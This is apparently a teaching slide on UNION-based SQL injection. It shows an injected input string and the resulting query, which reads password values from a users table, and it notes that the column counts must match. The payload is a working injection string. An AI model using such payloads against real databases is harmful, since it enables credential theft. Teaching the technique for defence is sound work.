

SQL Injection - UNION
The trick: inject UNION to select other columns from the table
Input: $user = ' and 1=0 union select password,0 from users-- x
Result: SELECT username, admin FROM users
           WHERE username='' and 1=0
           union select password,0 from users-- x'

You must match the number of columns in a UNION SELECT.